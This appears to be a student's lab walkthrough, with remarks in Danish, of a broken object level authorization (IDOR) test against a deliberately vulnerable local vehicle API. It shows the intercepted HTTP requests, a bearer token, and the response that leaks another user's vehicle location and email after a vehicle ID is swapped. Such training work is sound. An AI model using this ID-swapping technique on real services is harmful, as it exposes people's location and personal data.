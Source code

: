 1. Register a vehicle for each user. You’ll receive a VIN number and PIN code in the welcome email via MailHog.
    - Tjek
1. While authenticated as User A, navigate to the vehicle details dashboard.
    - Tjek
1. Use Burp Suite to intercept the request made to retrieve the vehicle location data.
    - Tjek
1. Note the resource ID (e.g., vehicle ID) used in the request.
    - User A vehicle ID: 1f6250a7-9da9-4d39-83c4-de0ec5e2d14f
1. Log out, then authenticate as User B.
    - Tjek
1. Navigate to the same dashboard and capture the equivalent vehicle data request using Burp Suite.
    - tjek
1. Send User B’s request to the Repeater.

    ``` linenums="0"
    GET /identity/api/v2/vehicle/6a704fe8-088b-48d9-aaf4-1d2dddee16aa/location HTTP/1.1
    Host: 127.0.0.1:8888
    sec-ch-ua-platform: "Windows"
    Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ1c2VyQGIuY29tIiwiaWF0IjoxNzU4NTIzOTM5LCJleHAiOjE3NTkxMjg3MzksInJvbGUiOiJ1c2VyIn0.LWzbG1LE8evAr6qNb9kLB5zyv0LWG8L1Q3vSVP5dgNkHghf8chnkfFJdwaQCadiqyy99f2cVUkF5TqSTQdT6Nkvv6KDyXzOsPVcKC08dQxaDuELu3ZkkEGX6zu6LIwyTvrXfWrKkp__Me1jERXedIz0XYSmK9kR59r8DpGzmJ1BHl0PCzIDP9J2zAkXw3lntI3Hvn5CexGPqqG-PCHjV9CIE0NKbZA3_3ax8mP8kVYeVWvcKi3aYHCDtA9ZKhGMXZzLOOa4YHBSbznbuRUgGb5yNT-5FQh37MpQdA-eb5Ges8RcZXwReD7VdNNfDUjrKRflVqDtXZsGfH5phU0nXag

    -- snippit --
    ```

1. In Repeater, replace User B’s resource ID with the one you captured from User A.

    ``` linenums="0"
    GET /identity/api/v2/vehicle/1f6250a7-9da9-4d39-83c4-de0ec5e2d14f
    /location HTTP/1.1
    Host: 127.0.0.1:8888
    ```
    Jeg har erstattet user B's vehicle ID med user A's.

1. Send the modified request.

    Jeg får dette resultat tilbage:

    ```json linenums="0"
    HTTP/1.1 200 
    Server: openresty/1.25.3.1
    Date: Mon, 22 Sep 2025 06:57:13 GMT
    Content-Type: application/json

    -- snippit --

    {
        "carId":"1f6250a7-9da9-4d39-83c4-de0ec5e2d14f",
        "vehicleLocation":{
                "id":2,
                "latitude":"31.284788",
                "longitude":"-92.471176"
            },
        "fullName":"User A",
        "email":"user@a.com"
    }
    ```
